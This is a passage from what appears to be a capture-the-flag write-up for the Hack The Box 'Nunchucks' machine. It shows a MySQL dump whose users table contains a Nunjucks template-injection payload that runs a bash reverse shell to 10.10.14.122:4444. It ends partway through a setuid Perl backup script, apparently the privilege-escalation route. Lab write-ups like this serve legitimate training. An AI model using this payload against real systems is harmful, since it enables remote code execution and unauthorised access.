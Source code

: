 ```sql
mysql> Show Databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| newsletters        |
+--------------------+
2 rows in set (0.00 sec)

mysql> use newsletters
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> Show Tables;
+-----------------------+
| Tables_in_newsletters |
+-----------------------+
| users                 |
+-----------------------+
1 row in set (0.00 sec)

mysql> Select * From users;
+----+---------------------------------------------------------------------------------------------------------------------------------------------------------+
| id | email                                                                                                                                                   |
+----+---------------------------------------------------------------------------------------------------------------------------------------------------------+
|  1 | test@nunchucks.htb                                                                                                                                      |
|  2 | {% raw %}{{range.constructor("return global.process.mainModule.require('child_process').execSync('bash -c \"bash -i >& /dev/tcp/10.10.14.122/4444 0>&1\"')")()}}{% endraw %} |
+----+---------------------------------------------------------------------------------------------------------------------------------------------------------+
2 rows in set (0.00 sec)
```

The /opt folder had a backup script. 

```bash
$ ls -la /opt/
total 16
drwxr-xr-x  3 root root 4096 Oct 28 17:03 .
drwxr-xr-x 19 root root 4096 Oct 28 17:03 ..
-rwxr-xr-x  1 root root  838 Sep  1  2021 backup.pl
drwxr-xr-x  2 root root 4096 Oct 28 17:03 web_backups
```

```pl
# backup.pl
#!/usr/bin/perl
use strict;
use POSIX qw(strftime);
use DBI;
use POSIX qw(setuid);
POSIX::setuid(0);

my $tmpdir        = "/tmp";
my $backup_main = '/var/www';
my $now = strftime("%Y-%m-%d-%s", localtime);
my $tmpbdir = "$tmpdir/backup_$now";

sub printlog
{
```